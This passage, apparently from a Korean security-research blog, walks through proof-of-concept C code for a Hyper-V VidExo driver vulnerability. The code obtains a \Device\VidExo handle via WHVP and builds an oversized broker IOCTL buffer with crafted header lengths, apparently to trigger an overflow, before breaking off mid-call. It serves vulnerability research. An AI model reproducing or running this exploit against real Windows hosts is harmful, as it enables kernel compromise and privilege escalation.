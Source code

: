 
아래는 WHVP(Windows Hypervisor Platform) API를 사용해서 `\Device\VidExo` 디바이스의 핸들을 얻는 코드입니다.

```c
	WHV_PARTITION_HANDLE prtn;
	WHV_CAPABILITY cap;
	unsigned int size, val;

	WHvGetCapability(WHvCapabilityCodeHypervisorPresent, &cap, sizeof(cap), &size);

	if (cap.HypervisorPresent == 0)
	{
		printf("Hypervisor is not present\n");
		return -1;
	}

	WHvCreatePartition(&prtn);

	val = 1;//processor cnt
	WHvSetPartitionProperty(prtn, WHvPartitionPropertyCodeProcessorCount, &val, sizeof(val));

	WHvSetupPartition(prtn);

	VidExo = (HANDLE)(*((__int64*)prtn + 1) & 0xfffffffffffffffe);//obtain HANDLE of \Device\VidExo
```

Exo Partition과 VidExo에 대한 더 자세한 내용은 이전에 다룬 [CVE-2023-36407의 분석](https://hackyboiz.github.io/2024/05/12/pwndorei/newjeans-hyper-v-pt7/#Vid-VidExoIoControlPartition)을 참고해주시기 바랍니다.

이후 아래와 같이 `VidExoBrokerIoctlSend`를 호출합니다.

```c
	DWORD NumHandles, DataLen;
	DataLen = 0xfffff000;//[1]
	NumHandles = (0x100000000 - 0x10 - DataLen) / sizeof(HANDLE);

	DWORD64* payload = VirtualAlloc(//[2]
		NULL,
		INPUT_LEN,//0xfffff000
		MEM_RESERVE | MEM_COMMIT,
		PAGE_READWRITE
	);

	if (payload == NULL) {
		printf("VirtualAlloc Failed(%x)\n", GetLastError());
		WHvDeletePartition(prtn);
		return -1;
	}

	BrokerIrpDataHeader* hdr = payload;
	HANDLE proc = GetCurrentProcess();
	PHANDLE p = &hdr[1];

	hdr->HeaderSize = 0x10;//[3]
	hdr->NumHandles = NumHandles;
	hdr->DataLen = DataLen;
	hdr->DataOffset = 0x0;

	for (DWORD i = 0; i < NumHandles; i++) {
		*p = proc;
		p++;
	}

	CreateThread(
		NULL,
		0,
```